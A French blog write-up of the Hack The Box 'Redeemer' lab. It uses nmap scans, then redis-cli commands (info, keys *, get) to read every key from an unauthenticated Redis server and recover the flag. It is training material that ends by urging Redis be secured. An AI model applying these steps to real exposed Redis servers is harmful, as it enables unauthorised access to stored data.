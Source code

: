 ```yaml
---
title: Starting Point Redeemer - Hack the Box 
date: 2025-03-05
tags: [HackTheBox, Redis, DataBases, VeryEasy]
categories: writeups
keywords: 'Redis Hack the box'
description: Box Starting point  - Hack the box 
cover: images/writeups/REDEEMER/image.png
top_img: /images/cyberpunk-red.jpg
toc: true
toc_number: true
---
```

### Introduction

Le challenge **"Redeemer"** sur Hack The Box nous amène à interagir avec un service Redis sur un serveur à distance. Redis est un **système de gestion de base de données en mémoire**, utilisé principalement pour la mise en cache de données et la gestion de données temporaires. L'objectif de ce challenge est d'exploiter un serveur Redis pour obtenir un flag.

### Étape 1: Identifier le Port Ouvert

La première étape consiste à déterminer quel port est ouvert sur la machine cible. Nous avons utilisé **Nmap** pour scanner les ports :

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p- -sS -min-rate=10000 -T5 10.129.136.187
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 11:21 CET
Warning: 10.129.136.187 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.136.187
Host is up (0.026s latency).
Not shown: 63528 closed tcp ports (reset), 2006 filtered tcp ports (no-response)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds

```

Le scan a révélé que le port **6379** est ouvert, et le service qui l'occupe est **Redis**.

### Étape 2: Identifier le Service Redis

Une fois que le port est identifié, nous avons effectué un autre scan Nmap pour obtenir plus d'informations sur le service qui s'exécute sur ce port. Le résultat indique que Redis est bien en fonctionnement :

```bash
┌──(jolan㉿jolan)-[~]
└─$ nmap -p 6379 -sV 10.129.136.187
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-11 11:24 CET
Nmap scan report for 10.129.136.187
Host is up (0.033s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds

```

Il est confirmé que **Redis version 5.0.7** est en cours d'exécution sur le port 6379.

### Étape 3: Comprendre Redis

Redis est un **système de gestion de base de données en mémoire** utilisé principalement pour le **stockage de données temporaires** et la **mise en cache**. Il permet de stocker des paires clé-valeur et peut être utilisé pour partager des données entre plusieurs serveurs.

### Étape 4: Se Connecter à Redis

Pour interagir avec Redis, l'outil **redis-cli** est utilisé. Il permet d'exécuter des commandes Redis depuis la ligne de commande. La commande suivante permet de se connecter à la machine cible via **redis-cli** :

```bash
redis-cli -h 10.129.136.187

```

Une fois connecté, vous obtenez un prompt où vous pouvez exécuter des commandes Redis.

### Étape 5: Obtenir des Informations sur le Serveur Redis

La commande suivante fournit des informations et des statistiques sur le serveur Redis :

```bash
10.129.136.187:6379> info

```

Le résultat montre diverses informations sur le serveur, y compris la version de Redis, l'OS utilisé, et le nombre de clés dans la base de données.

### Étape 6: Explorer les Clés de Redis

Ensuite, nous avons utilisé la commande `keys *` pour lister toutes les clés stockées dans la base de données Redis :

```bash
10.129.136.187:6379> keys *
1) "temp"
2) "numb"
3) "stor"
4) "flag"

```

Quatre clés sont présentes : **temp**, **numb**, **stor**, et **flag**.

### Étape 7: Extraire les Valeurs des Clés

Nous avons ensuite utilisé la commande `get` pour récupérer les valeurs associées à ces clés :

```bash
10.129.136.187:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.136.187:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.136.187:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.136.187:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"

```

La valeur de la clé **flag** est le flag que nous recherchions :

```
03e1d2b376c37ab3f5319922053953eb

```

### Conclusion

Dans ce challenge, nous avons utilisé **Nmap** pour découvrir le port ouvert, identifié le service **Redis** qui y était exécuté, et utilisé **redis-cli** pour interagir avec le serveur Redis. En explorant les clés stockées dans Redis, nous avons récupéré le **flag** qui était caché dans la clé **flag**.

Ce challenge met en lumière l'importance de sécuriser les services Redis, car un accès non autorisé à Redis peut permettre à un attaquant d'exploiter des informations sensibles stockées dans la base de données.